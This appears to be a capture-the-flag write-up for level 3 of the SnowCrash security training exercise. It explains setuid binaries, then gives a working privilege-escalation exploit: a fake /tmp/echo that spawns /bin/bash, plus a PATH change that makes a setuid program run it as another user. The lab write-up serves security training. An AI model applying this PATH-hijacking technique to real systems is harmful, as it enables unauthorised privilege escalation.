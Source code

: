 # Level03

## Research
------------

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line


## Solution
-----------

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      ``` bash
      export PATH=/tmp:$PATH
      ```
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      We added tmp directory at the start of the path.


```bash
level03@SnowCrash:~$ ./level03
```

You are now `flag03` as a user, because you "opened" a new shell with the rights of flag03.

You can now launch `getflag` with flag03 rights.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

